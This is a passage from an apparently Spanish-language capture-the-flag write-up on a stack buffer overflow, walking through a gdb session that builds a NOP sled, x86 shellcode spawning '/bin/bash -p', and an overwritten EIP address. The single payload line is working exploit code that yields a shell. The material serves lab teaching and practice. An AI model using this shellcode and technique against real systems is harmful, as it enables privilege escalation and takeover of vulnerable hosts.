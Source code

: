 ![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912010143.png>)

Por lo que ahora lo que haremos será introducir los **NOPs** seguido de nuestro **shellcode** y finalmente como **EIP** introduciremos una dirección de memoria que antes antes de nuestro **shellcode** y que apunta a los **NOPs** para que de esta forma el **shellcode** se ejecute correctamente.

```bash
r $(python -c 'print b"\x90"*479 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + b"\x90\xd5\xff\xff"')
```

Observamos como dentro del propio `gdb` nos lanza una `bash`.

![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912010304.png>)

Por lo que en este punto lo que debemos de hacer es ejecutar directamente el binario pasándole nuestro **payload**.
